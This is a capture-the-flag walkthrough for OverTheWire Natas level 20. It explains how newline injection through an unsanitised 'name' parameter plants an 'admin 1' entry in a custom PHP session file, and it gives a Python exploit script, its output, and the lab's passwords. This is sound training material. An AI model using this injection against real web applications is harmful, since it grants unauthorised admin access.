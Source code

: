 # Natas20

*	user: `natas20`
*	pass: `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`
*	url: [http://natas20.natas.labs.overthewire.org](http://natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF@natas20.natas.labs.overthewire.org)
*	flag: `IFekPyrQXftziDEsUr3x21sYuahypdgJ`

## Procedure

1.	In this level it's realistic to say that session ID cannot be predicted.
	Indeed, it seems to be totally random.

2.	By taking a look in the source code, we can see that custom handlers for
	session storing management were defined. In our case the intersing ones are
	`myread()` and `mywrite()`.

3.	In `myread()` we can see that session file's content is split by using
	`\n` (newline) as separator character.

		$_SESSION = array();
		foreach(explode("\n", $data) as $line) {
			debug("Read [$line]");
			...
		}

	Furthermore, to fill the `$_SESSION` array, each line is expected to be in
	the form `key value`

		$_SESSION = array();
		foreach(explode("\n", $data) as $line) {
			...
			$parts = explode(" ", $line, 2);
			if($parts[0] != "")
				$_SESSION[$parts[0]] = $parts[1];
		}

4.	To get authenticated as `admin`, page checks if session contains the `admin`
	key and if its value in `1`.

		function print_credentials() { /* {{{ */
			if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
				print "You are an admin. The credentials for the next level are:<br>";
				print "<pre>Username: natas21\n";
				print "Password: <censored></pre>";
			} else {
				print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
			}
		}

5.	When parameter called `name` is posted, a new session is initialised and
	value of `name` is stored on it (without being sanitised!!!).

6.	Few lines of Python ([natas20.py](./scripts/natas20.py)) will do the attack

		import requests

		target = 'http://natas20.natas.labs.overthewire.org'
		auth = ('natas20', 'eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF')

		print "#"
		print "# FIRST REQUEST"
		print "#"
		params = dict(name='admin\nadmin 1', debug='') # <-- this is the key part
		#             ^^^^^^^^^^^^^^^^^^^^^
		cookies = dict()
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		phpsessid = r.cookies['PHPSESSID']
		print r.text

		print "\n\n"
		print "#"
		print "# SECOND REQUEST"
		print "#"
		params = dict(debug='')
		cookies = dict(PHPSESSID=phpsessid)
		r = requests.get(target, auth=auth, params=params, cookies=cookies)
		print r.text

	In practice, we'll inject the `admin` parameter via the `name` parameter.

		$ pyton natas20.py
		#
		# FIRST REQUEST
		#
		<html>

		[cut]

		<body>
		<h1>natas20</h1>
		<div id="content">
		DEBUG: MYREAD 3ja0006ku6rh8birk8i66nlrr5<br>DEBUG: Session file doesn't exist<br>DEBUG: Name set to admin
		admin 1<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.

		[cut]

		DEBUG: MYWRITE 3ja0006ku6rh8birk8i66nlrr5 name|s:13:"admin
		admin 1";<br>DEBUG: Saving in /var/lib/php5/mysess_3ja0006ku6rh8birk8i66nlrr5<br>DEBUG: name => admin
		admin 1<br>

		#
		# SECOND REQUEST
		#
		<html>

		[cut]

		<body>
		<h1>natas20</h1>
		<div id="content">
		DEBUG: MYREAD 3ja0006ku6rh8birk8i66nlrr5<br>DEBUG: Reading from /var/lib/php5/mysess_3ja0006ku6rh8birk8i66nlrr5<br>DEBUG: Read [name admin]<br>DEBUG: Read [admin 1]<br>DEBUG: Read []<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas21
		Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>

		[cut]



